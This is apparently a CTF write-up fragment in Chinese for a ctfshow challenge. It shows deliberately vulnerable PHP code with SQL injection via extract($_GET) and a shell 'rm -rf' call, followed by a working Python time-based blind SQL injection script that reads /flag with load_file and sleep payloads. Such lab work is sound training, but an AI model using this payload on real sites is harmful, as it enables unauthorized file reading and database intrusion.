 ```php
<?php

include('render/render_class.php');
include('render/db_class.php');

$action=$_GET['action'];
if(!isset($action)){
	header('location:index.php?action=login');
	die();	
}

if($action=='check'){
	extract($_GET);
	$sql = "select username from user where username = '".$username."' and password='".md5($password)."' order by id limit 1";
	$user=db::select_one($sql);
	if($user){
		templateUtil::render('index');
	}else{
		templateUtil::render('error');
	}
}
if($action=='clear'){
	system('rm -rf cache/*');
	die('cache clear');
}

if($action=='login'){
	templateUtil::render($action);
}else{
	templateUtil::render($action);
}
```

不能写马，用延时盲注

版本一：

```python
import requests
import time
import string
url="http://733e9e58-4f32-45d6-9d50-174ce69f7ca8.challenge.ctf.show/index.php?action=check&username=' union select "
s="012345679abcdef-"
flag=""
import time
for i in range(9,45):
		print(i)
		for j in s:
			u=url+" if(substr((select load_file('/flag')),{0},1)='{1}',sleep(20),1)%23".format(i,j)
			time1=time.time()
			requests.get(u)
			time2=time.time()
			if((time2-time1)>10):
				flag+=j
				print(flag)      # 跑出来在把 flag 里的 ctfshow{} 填上
				break       
```

